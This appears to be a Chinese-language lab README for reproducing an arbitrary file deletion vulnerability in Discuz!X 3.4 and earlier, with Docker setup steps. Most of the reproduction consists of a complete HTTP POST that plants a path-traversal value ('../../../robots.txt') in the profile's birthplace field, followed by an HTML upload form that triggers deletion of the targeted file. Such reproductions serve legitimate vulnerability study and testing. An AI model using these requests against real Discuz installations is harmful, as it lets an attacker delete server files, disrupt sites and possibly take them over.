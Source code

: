 # Discuz!X ≤3.4 任意文件删除漏洞

影响版本：Discuz!X ≤3.4

漏洞详情：https://lorexxar.cn/2017/09/30/dz-delete/

# 启动环境

执行下列命令部署 Discuz!X 安装环境

```
docker-compose up -d
```

安装时，只用修改数据库地址为`db`，其他保持默认即可：

![](1.png)

# 漏洞复现

访问`http://your-ip/robots.txt`可见robots.txt是存在的：

![](2.png)

注册用户后，带上自己的Cookie发送如下数据包：

```
POST /home.php?mod=spacecp&ac=profile&op=base HTTP/1.1
Host: localhost
Content-Length: 367
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryPFvXyxL45f34L12s
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.79 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Cookie: [your cookie]
Connection: close

------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="formhash"

60e7e10b
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="birthprovince"

../../../robots.txt
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="profilesubmit"

1
------WebKitFormBoundaryPFvXyxL45f34L12s--

```

其中formhash可以在页面中查找获得。

![](4.png)

提交成功之后用户资料修改页面上的出生地就会显示成下图所示的状态。

![](5.png)

此时，新建一个`upload.html`，代码如下，将其中的`[your-ip]`改成discuz的域名，`[form-hash]`改成你的formhash：

```
<body>
    <form action="http://[your-ip]/home.php?mod=spacecp&ac=profile&op=base&profilesubmit=1&formhash=[form-hash]" method="post" enctype="multipart/form-data">
        <input type="file" name="birthprovince" />
        <input type="submit" value="upload" />
    </form>
</body>
```

然后用浏览器打开，选择一个正常图片，点击提交。再次访问`http://your-ip/robots.txt`，发现文件成功被删除：

![](6.png)